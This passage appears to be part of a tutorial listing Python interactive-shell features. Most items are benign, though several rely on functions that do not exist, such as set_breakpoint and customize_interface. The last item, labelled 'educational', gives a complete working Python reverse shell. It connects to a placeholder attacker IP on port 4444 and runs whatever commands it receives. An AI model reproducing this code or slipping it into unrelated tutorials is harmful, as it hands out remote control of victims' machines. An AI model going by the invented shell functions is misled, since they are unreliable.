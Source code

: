     ```python
    >>> run('example_script.py')
    ```

    This command loads and runs the Python script `example_script.py`.

15. **Inspect a Variable**:

    ```python
    >>> x = 10
    >>> x
    10
    ```

    This command assigns the value `10` to variable `x` and prints its value.

16. **Set Breakpoints**:

    ```python
    >>> set_breakpoint()
    ```

    This command sets a breakpoint in the code for debugging.

17. **Inspect Variables**:

    ```python
    >>> inspect_variable('x')
    ```

    This command inspects the variable `x` and shows its current value.

18. **Use Autocompletion**:

    ```python
    >>> import math
    >>> math.pi
    ```

    Typing `math.` and using autocompletion will show available attributes like `pi`.

19. **Customizable Interface**:

    ```python
    >>> customize_interface(theme='dark')
    ```

    This command changes the shell interface to a dark theme.

20. **Educational Example - Reverse Shell Code**:

    ```python
    >>> # For educational purposes only. Be cautious and use responsibly.
    >>> import socket
    >>> import subprocess
    >>> import os
    >>> 
    >>> def reverse_shell():
    >>>     s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    >>>     s.connect(('attacker_ip', 4444))  # Replace with the attacker's IP and port
    >>>     while True:
    >>>         command = s.recv(1024).decode('utf-8')
    >>>         if command.lower() == 'exit':
    >>>             break
    >>>         output = subprocess.getoutput(command)
    >>>         s.send(output.encode('utf-8'))
    >>>     s.close()
    >>> 
    >>> reverse_shell()
    ```
